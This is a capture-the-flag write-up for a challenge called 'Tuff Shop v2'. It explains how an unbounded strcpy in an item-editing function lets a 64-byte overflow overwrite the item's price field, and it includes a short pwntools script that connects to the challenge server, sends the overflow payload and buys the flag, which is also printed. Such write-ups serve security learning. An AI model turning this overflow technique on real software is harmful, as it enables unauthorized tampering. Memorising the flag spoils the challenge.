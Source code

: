 # Tuff Shop v2 
> Oh my god! You just haxxed the reallly tuff shop again! But this time you got in their secret admin system... Can you pull off the best six seven prank in this secret build?

Author: wintertia


## About the Challenge
This challenge gives a main elf which contains a shop. and we are asked to buy a flag in the shop

## How to Solve?

First we dissasemble this elf to know what actually it do, using this command
```
objdump -d main > main.asm
```
I found strcpy calls in _ZN4ItemC1EPKci (constructor) and _ZN4Item8editNameEv that call strcpy on the Item object's buffer—this indicates an infinite copy → potential overflow.
Look at the Item object's layout: the constructor writes mov %edx,0x40(%rax) → the price field is at offset 0x40 of the base object.

Here, I created an exploit file that uses the pwn tool to create an item (index 0), uses editName (which calls strcpy) to overflow the name to the byte at offset 0x40, changes that byte to a lowercase (e.g., ASCII '1' = 0x31) so that price <= aura, and then selects the buy option to trigger flag().

```
from pwn import *
p=remote('intersec.hcs-team.com',10118)
def m(n):
    p.recvuntil(b'>',timeout=5)
    p.sendline(str(n).encode())
m(1)
p.sendline(b'ITEM')
m(2)
p.sendline(b'0')
p.sendline(b'A'*0x40+b'1')
m(4)
p.sendline(b'0')
print(p.recvall(timeout=5).decode(errors='ignore'))

```

<img width="786" height="574" alt="image" src="https://github.com/user-attachments/assets/62108305-fb7a-4ec2-a8b1-2ba98046221d" />


Boom. we got the flag

## Flag
```
HCS{omg_h343p_g00att_s0_tUFFFF_<3_ffd393e9-3dce-4a6b-beb3-3101c450c914}
```
